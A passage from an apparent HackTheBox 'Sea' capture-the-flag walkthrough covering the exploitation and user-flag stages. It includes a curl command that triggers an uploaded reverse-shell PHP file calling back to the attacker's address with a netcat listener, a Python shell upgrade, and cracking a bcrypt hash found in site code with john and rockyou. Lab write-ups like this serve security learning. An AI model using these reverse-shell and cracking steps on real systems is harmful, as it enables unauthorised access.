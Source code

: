 16. Let’s curl this URL with ‘lhost’ and ‘lport’ while having our Netcat listening.

Exploit:
--------

**_Command — curl the link: curl_** #Exploitation 

```
curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.65&lport=4444"
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*X2y818bhgcp_-GeFbhsszw.png)

Reverse Shell Listener:
-----------------------

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*-pAJokYkImlUoWKz_uA9oQ.png)

17. Now we have a shell as a www-data user.

**_Command — Spawn Bash shell: python one-liner_**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

18. The above command will spawn the more stable bash shell.

19. As a www-data user, We don’t have much permission.

Lateral Movement
================

i. User Flag
------------

1.  First, Let’s go into the directory that serves the website ‘/var/www/sea’.
2.  In the database.js file, we found a password hash hardcoded in the JS code.
3.  Let’s crack the password hash using ‘john’

**_Command — Cracking password hash: john_** #JohnTheRipper 

```
john hash --wordlist=/mnt/HDD1/VM\ files/kali/wordlists/rockyou.txt --format=bcrypt
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*m165EkZF5jKBlA3GgMYC_Q.png)

4. Let’s use this password for the user ‘amay’. #userflag 

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*J2lJHY90e-D9YFiRgEFv_g.png)

ii. Root Flag
-------------

1.  Now, We have low-privileged user access. Let’s check for processes and other open ports. #rootflag #PrivilegeEscalation 

**_Command — Check running processes: ps_** #ps

```
ps aux
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*IU7_VupywYjs7InDfxuR1w.png)
